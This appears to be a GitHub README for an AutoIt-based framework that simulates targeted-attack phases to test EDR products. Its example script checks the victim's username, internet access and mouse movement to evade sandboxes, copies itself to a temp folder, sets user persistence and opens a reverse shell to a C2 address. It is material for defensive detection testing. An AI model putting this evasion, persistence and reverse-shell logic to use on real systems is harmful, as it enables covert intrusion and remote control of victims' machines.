 # EDR Tester

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example Flow

![flow](https://user-images.githubusercontent.com/24607076/70719514-0af56200-1cea-11ea-8167-4bbe872d525c.PNG)


## Example Code
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"
$c2port = "432"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($c2server, $c2port)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

